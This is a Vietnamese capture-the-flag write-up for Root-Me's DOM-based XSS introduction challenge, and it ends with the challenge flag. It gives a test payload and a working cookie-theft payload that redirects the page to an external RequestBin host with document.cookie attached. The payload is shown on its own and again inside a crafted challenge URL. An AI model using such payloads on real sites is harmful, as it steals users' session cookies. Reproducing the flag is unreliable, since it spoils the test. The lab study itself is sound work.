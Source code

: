# WRITE UP

## **Challenge:** [XSS DOM Based - Introduction](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction)

Sau khi thử submit, thì ta có thể xem được script của website:

<img src="./media/image1.png" style="width:6.5in;height:2.34861in" alt="Text Description automatically generated" />

Lúc này, tham số number sẽ đảm nhận nhận input. Ta thử kiểm tra XSS ở ô này bằng payload **‘;alert(1)//** thì thấy thành công:

<img src="./media/image2.png" style="width:6.5in;height:1.01875in" alt="Graphical user interface, text, application Description automatically generated" />

Ta sẽ dùng document.location để redirect website đến HTTP Request và payload để DOM based XSS như sau (ta dùng RequestBin tạo từ <https://requestbin.in>):

**';document.location=%27https://eol9dtzbk9673pb.m.pipedream.net/?cookies=%27%2bdocument.cookie;//**

<img src="./media/image3.png" style="width:6.5in;height:0.8375in" alt="Graphical user interface, text, application Description automatically generated" />

Website đã chuyển hướng thành công, giờ ta sẽ thực hiện POST lên bằng form bên tag contact:

<img src="./media/image4.png" style="width:6.5in;height:1.55972in" alt="Graphical user interface, text, application Description automatically generated" />

Ta thực hiện điền payload bên dưới đến POST lên và đợi cookie được trả về tại RequestBin:

<http://challenge01.root-me.org/web-client/ch32/?number=%27;document.location=%27https://eol9dtzbk9673pb.m.pipedream.net/?cookies=%27%2bdocument.cookie//>

<img src="./media/image5.png" style="width:6.5in;height:1.64444in" alt="Graphical user interface, application, Teams Description automatically generated" />

**Flag:** rootme{XSS\_D0M\_BaSed\_InTr0}
